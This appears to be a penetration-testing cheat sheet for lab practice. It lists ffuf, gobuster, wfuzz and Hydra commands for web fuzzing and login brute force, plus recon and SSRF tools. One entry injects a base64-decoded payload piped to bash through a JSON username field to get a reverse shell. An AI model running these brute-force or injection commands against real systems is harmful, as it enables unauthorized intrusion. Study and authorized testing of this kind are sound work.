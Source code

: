 ## 🔍 Web Fuzzing Tools

### 🔹 FFUF — Fuzzing parameters, files, login forms, subdomains
```bash
ffuf -w wordlist.txt -u http://target.com/FUZZ
```
**Examples:**
- Fuzz POST param for command injection:
```bash
ffuf -w /usr/share/wordlists/SecLists/Fuzzing/command-injection-commix.txt \
  -u http://target.com/ -X POST \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "url=FUZZ" -fw 3
```
- Login form brute force:
```bash
ffuf -w usernames.txt:USERNAME -w passwords.txt:PASSWORD -X POST \
  -u http://target.com/login \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "username=USERNAME&password=PASSWORD" -fc 401
```
- Subdomain fuzzing:
```bash
ffuf -w subdomains.txt -u http://target.com/ -H "Host: FUZZ.target.com" -fs 0
```

### 🔹 Gobuster
```bash
gobuster dir -u http://target.com/ -w wordlist.txt -x php,html,txt -t 50
```
- DNS mode:
```bash
gobuster dns -d target.com -w subdomains.txt -t 50
```

### 🔹 Dirsearch
```bash
dirsearch -u http://target.com/ -e php,html,txt -w wordlist.txt -t 40
```

### 🔹 Feroxbuster
```bash
feroxbuster -u http://target.com/ -w wordlist.txt -x php,html -t 50 -r
```

### 🔹 Wfuzz
```bash
wfuzz -w wordlist.txt -u http://target.com/FUZZ --hc 404
wfuzz -w wordlist.txt -u http://target.com/FUZZ.php --hc 404
```
- Fuzz headers:
```bash
wfuzz -w common.txt -u http://target.com/ -H "X-Forwarded-For: FUZZ" --hc 404
```

### 🔹Link to different [[📂 Word List]] 
---

## 🧠 Fuzzing Parameters / Cookies / Headers

- Fuzz GET parameter values:
```bash
ffuf -u "http://target.com/page.php?param=FUZZ&static=value" -w wordlist.txt -mc all -fr "Error"
```
- Fuzz cookies:
```bash
ffuf -w common.txt -u http://target.com/ -H "Cookie: FUZZ=1" -fs 0
```
- Fuzz headers:
```bash
wfuzz -w common.txt -u http://target.com/ -H "X-Header: FUZZ" --hc 404
```

---

## 🔑 Brute Force / Login Cracking

### 🔹 Hydra
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt target.com http-post-form \
"/login:username=^USER^&password=^PASS^:F=Login failed"
```

---

## 🔎 Recon Tools

### 🔹 WhatWeb
```bash
whatweb http://target.com
```
> Detects technologies used by a website

### 🔹 Sublist3r
```bash
sublist3r -d target.com -o subdomains.txt
```

### 🔹 SearchSploit
```bash
searchsploit keyword
```
> Searches for known exploits in Exploit-DB

---

## 🔁 API Interaction / Web Exploitation

### 🔹 Basic curl with JSON
```bash
curl -sX PUT http://target.com/api/endpoint \
  --cookie "PHPSESSID=sessionid" \
  -H "Content-Type: application/json" \
  -d '{"email": "user@htb.com", "is_admin": 1}' | jq
```

### 🔹 Reverse shell via curl + API
```bash
curl -sX POST http://target.com/api \
  --cookie "PHPSESSID=sessionid" \
  -H "Content-Type: application/json" \
  -d '{"username": "theo;echo <base64_payload> | base64 -d | bash;"}'
```
> Always encode payload in Base64 to avoid special char issues

---

## 🌐 SSRF Exploitation

### 🔹 SSRFmap
```bash
ssrfmap.py -r request.txt -p url -m portscan
```
> Exploits SSRF via given request, fuzzes the 'url' parameter, and runs internal port scanning



